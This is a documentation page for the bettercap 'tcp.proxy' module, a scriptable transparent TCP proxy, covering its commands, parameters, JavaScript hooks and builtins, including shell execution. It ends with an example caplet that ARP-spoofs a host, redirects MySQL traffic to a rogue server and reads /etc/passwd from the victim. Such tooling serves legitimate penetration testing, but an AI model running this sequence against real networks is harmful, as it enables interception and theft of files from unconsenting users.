 ```yaml
---
title: "tcp.proxy"
date: 2019-02-25T13:18:06+01:00
draft: false
weight: 3
---
```


A TCP transparent proxy that can be scripted using javascript modules. If used together with a [spoofer](/modules/ethernet/spoofers/), all TCP traffic to a given address and port will be redirected to it and it will automatically handle port redirections as needed.

The optional `tcp.tunnel` parameter can be used to redirect the traffic from `tcp.address` to `tcp.tunnel.address`.

### Commands

#### `tcp.proxy on`

Start the TCP proxy.

#### `tcp.proxy off`

Stop the TCP proxy.

### Parameters

| Parameter            | Default               | Description                                       |
| -------------------- | --------------------- | ------------------------------------------------- |
| `tcp.port`           | `443`                 | TCP port to redirect when the proxy is activated. |
| `tcp.address`        |                       | **Mandatory** remote address of the TCP proxy.    |
| `tcp.proxy.port`     | `8443`                | Port to bind the TCP proxy to.                    |
| `tcp.proxy.address`  | `<interface address>` | Address to bind the TCP proxy to.                 |
| `tcp.proxy.script`   |                       | Path of a proxy module script.                    |
| `tcp.tunnel.address` |                       | Address to redirect the TCP tunnel to (optional). |
| `tcp.tunnel.port`    |                       | Port to redirect the TCP tunnel to (optional)     |

### Modules

The `tcp.proxy` module can be scripted using javascript files that must declare at least one of the following functions:

```js
// called when the script is loaded
function onLoad() {
  // ...
}

// called when data is available
// return an array of bytes to override "data"
function onData(from, to, data) {
  // ...
}
```

Modules can change the `data` buffer and return it, signaling the proxy to override the original buffer.

### Builtin Functions

Modules can use the following builtin functions.

| Function                                    | Description                                                                   |
| ------------------------------------------- | ----------------------------------------------------------------------------- |
| `readDir("/path/")`                         | Return the contents of a directory as a string array.                         |
| `readFile("/path/to/file")`                 | Return the contents of a file as a string.                                    |
| `writeFile("/path/to/file", "hello world")` | Write the string `hello world` to a file, returns `null` or an error message. |
| `log_debug("message")`                      | Log a message in the interactive session (its level will be `DEBUG`).         |
| `log_info("message")`                       | Log a message in the interactive session (its level will be `INFO`).          |
| `log_warn("message")`                       | Log a message in the interactive session (its level will be `WARNING`).       |
| `log_error("message")`                      | Log a message in the interactive session (its level will be `ERROR`).         |
| `log_fatal("message")`                      | Log a message in the interactive session (its level will be `FATAL`).         |
| `log("message")`                            | Shortcut for `log_info("message")`.                                           |
| `btoa("message")`                           | Encode a message to base64.                                                   |
| `atob("bWVzc2FnZQ==")`                      | Decode a message from base64.                                                 |
| `gzipCompress("plaintext data")`            | Compress a string using gzip encoding.                                        |
| `gzipDecompress(")9�\+�I��+I�(QHI,I����")`  | Decompress a gzip encoded string.                                             |
| `env("iface.ipv4")`                         | Read a variable.                                                              |
| `env("foo", "bar")`                         | Set a variable.                                                               |
| `run("command")`                            | Execute a shell command and return the output as a string.                    |
| `fileExists("/path/to/file")`               | Return `true` if the file exists, otherwise `false`.                          |
| `loadJSON("/path/to/file.json")`            | Load and parse a JSON file, returns a JS object.                              |
| `saveJSON("/path/to/file.json", object)`    | Serialize and save a JS object as JSON to the specified file.                 |
| `saveToFile("/path.txt", "data")`           | Save raw string data to a file.                                               |
| `onEvent("event.tag", callback)`            | Register a JS callback for the given session event tag.                       |
| `removeEventListener("event.tag")`          | Remove a previously registered event listener for the given tag.              |
| `addSessionEvent("tag", data)`              | Trigger a session event from within the script with a custom tag and payload. |

### Examples

The [rogue-mysql-server.cap](https://github.com/bettercap/caplets/blob/master/rogue-mysql-server.cap) executes an ARP spoofing attack against a single host and redirect the MySQL traffic to a [builtin rogue server](/modules/ethernet/servers/mysql.server/):

```sh
# set the target for arp spoofing
set arp.spoof.targets 192.168.1.236

# bind rogue mysql server to localhost and
# set the file we want to read
set mysql.server.address 127.0.0.1
set mysql.server.port 3306
set mysql.server.infile /etc/passwd
mysql.server on

# set the ip from the mysql server we want to impersonate
set tcp.address 93.184.216.34
set tcp.port 3306

# set the ip from the rogue mysql server
set tcp.tunnel.address 127.0.0.1
set tcp.tunnel.port 3306

# go ^_^
tcp.proxy on
arp.spoof on
```
